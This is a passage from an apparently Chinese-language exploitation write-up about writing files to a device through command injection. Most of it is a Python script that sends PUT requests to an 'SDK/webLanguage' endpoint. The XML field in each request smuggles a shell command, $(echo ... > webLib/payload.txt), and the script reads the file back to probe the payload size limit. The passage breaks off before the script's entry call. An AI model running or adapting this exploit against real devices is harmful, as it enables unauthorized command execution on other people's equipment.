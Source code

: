 只有 344 个字节大小  
#### 2) 通过echo写入到服务器  
  
通过之前的部分我们可以知道，攻击数据包是有大小限制的，具体限制是多少还不是固定的，每种设备不一样  
  
我们可以通过下面的脚本进行粗略测试  
```
import requests
import sys
import urllib.parse

# 构建请求头部
headers = {
    'User-Agent': 'python-requests/2.22.0',
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Connection': 'close',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
}

def sendPayload(target, poc_data):
    # 设置要发送的数据
    data = '<?xml version="1.0" encoding="UTF-8"?><language>$(echo -n -e "' + poc_data + '" > webLib/payload.txt)</language>'
    url = urllib.parse.urljoin(target, 'SDK/webLanguage')

    # 发送请求
    response = requests.put(url, headers=headers, data=data)
    
    # 检查响应状态码等，确保请求成功
    if response.status_code == 500:
        return True
    return False


def getPayloadLength(target):
    url = urllib.parse.urljoin(target, 'payload.txt')
    response = requests.get(url, headers=headers)
    p_length = len(response.text)
    return p_length


def testPayloadLength(target):
    # 动态设置 Host 字段
    headers['Host'] = urllib.parse.urlparse(target).netloc

    # 测试数据包长度限制
    length = 4
    while True:
        chunk = 'A' * length
        result = sendPayload(target, chunk)
        p_length = getPayloadLength(target)

        if result and length > p_length:
            print(f"Payload length: {length - 4}")
            break
        length += 4

if len(sys.argv) < 2:
    print("Usage: python script.py <target_address>")
    sys.exit(1)

```